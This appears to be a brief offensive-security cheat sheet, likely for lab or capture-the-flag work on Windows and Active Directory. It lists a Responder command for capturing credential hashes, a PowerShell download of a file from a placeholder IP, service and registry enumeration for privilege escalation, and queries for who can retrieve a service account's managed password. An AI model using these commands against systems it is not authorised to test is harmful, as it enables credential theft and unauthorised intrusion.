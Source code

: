 command for responder:
```
responder -I tun0 -wv
```
Powershell commands:

```
Invoke-WebRequest -Uri <ip address> -Outfile <filename>
```

known manual start permissions on windows:
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\seclogon
```
look for services that start manually
```
Get-Service | findstr -i "manual"
```

Check if user is in an admin group:

```
Get-ADGroupMember 'Web Admins'
```

What groups have permission to acheive a users password:
```
Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames
```

